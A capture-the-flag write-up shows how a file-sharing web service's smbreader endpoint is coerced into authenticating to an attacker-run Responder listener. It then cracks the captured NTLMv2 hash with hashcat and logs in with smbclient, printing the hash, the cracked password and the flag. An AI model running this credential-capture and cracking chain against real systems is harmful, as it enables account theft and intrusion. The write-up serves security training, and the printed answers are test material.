

#### Challenge:

Hi Expert,

the file sharing service at `http://78.128.216.5:65080` looks as valuable source of information. Get access to the system and export any valuable data.

---

#### Solution:

Following the link redirects us to URL:

`http://78.128.216.5:65080/smbreader?server=localhost&file=message.txt`

which contains the text:

```text
Current path is \\localhost\shared\message.txt
Hey you, try to get Samba password for user 'shared', then search flag.txt  :-)
```

It looks like we can manipulate the server and file that is read, but the result always times out. The `smbreader` indicates that it uses `samba` protocol. Bit of Googling led me to this [article](https://cornerpirate.com/2021/06/17/grabbing-ntlm-hashes-with-responder-then-what/).

TLDR: we need to setup [responder](https://gitlab.com/kalilinux/packages/responder.git) on our machine to listen:

```bash
git clone https://gitlab.com/kalilinux/packages/responder.git
sudo ./responder/Responder.py -I eth0 -Pv
```

And then ping it like this:

```bash
curl http://78.128.216.5:65080/smbreader?server=MY.CURRENT.PUBLIC.IP&file=message.txt
```

The server will try to connect to the `responder`, which dumps the `NTLM hashes` of the `shared` user:



Then we need to feed the `NTLM Hashes` to `John` or `Hashcat` to get the password of the `shared` user:

```bash
for user in `strings /usr/share/responder/logs/Responder-Session.log | grep "NTLMv2-SSP Hash" | cut -d ":" -f 4-6 | sort -u -f | awk '{$1=$1};1'`
do
    echo "[*] search for: $user";
    strings /usr/share/responder/logs/Responder-Session.log | grep "NTLMv2-SSP Hash" | grep -i $user | cut -d ":" -f 4-10 |  head -n 1 | awk '{$1=$1};1' >> ntlm-hashes.txt
done

hashcat -m 5600 ntlm-hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
cat cracked.txt
```

Which gets us:

```text
SHARED:::c9c0da939d5fac4c:de4257fe1cb72ae3142077ce54276999:0101000000000000005660fbe2bed701ed1eb3c1a2e28282000000000200080053004d004200330001001e00570049004e002d00500052004800340039003200520051004100460056000400140053004d00420033002e006c006f00630061006c0003003400570049004e002d00500052004800340039003200520051004100460056002e0053004d00420033002e006c006f00630061006c000500140053004d00420033002e006c006f00630061006c0007000800005660fbe2bed7010900240043004900460053002f00380039002e003100370037002e00350036002e0031003500390006000400020000000000000000000000:Iloveyou4
```

Knowing the `username%password`, we can connect to the server using `smbclient` and `get` the `flag.txt` (*Note that for some reason you have to have public IP for this as well, I couldn't connect to it through NAT*):

```bash
smbclient //78.128.216.5/shared/ -U shared%Iloveyou4 -c "get flag.txt"
cat flag.txt
```

---

<details><summary>FLAG:</summary>

```
FLAG{xcrh-xE9H-H4wm-4Pxm}
```

</details>
<br/>
